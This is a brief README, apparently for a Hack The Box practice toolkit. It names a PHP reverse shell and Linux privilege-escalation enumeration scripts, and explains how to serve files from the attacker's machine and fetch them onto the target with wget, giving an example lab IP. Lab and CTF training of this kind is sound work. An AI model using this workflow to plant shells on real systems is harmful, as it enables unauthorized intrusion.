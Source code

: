 # Hackthebox tools
**shell.php** : Use for reverse shell when uploaded to vuln machine
**les.sh and LinEnum.sh** : Use for detect vuln in Linux machine

### How to upload files to vuln linux machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
> wget (your ip address):8000/(file to upload)

Example : 
> wget 10.10.14.62:8000/les.sh
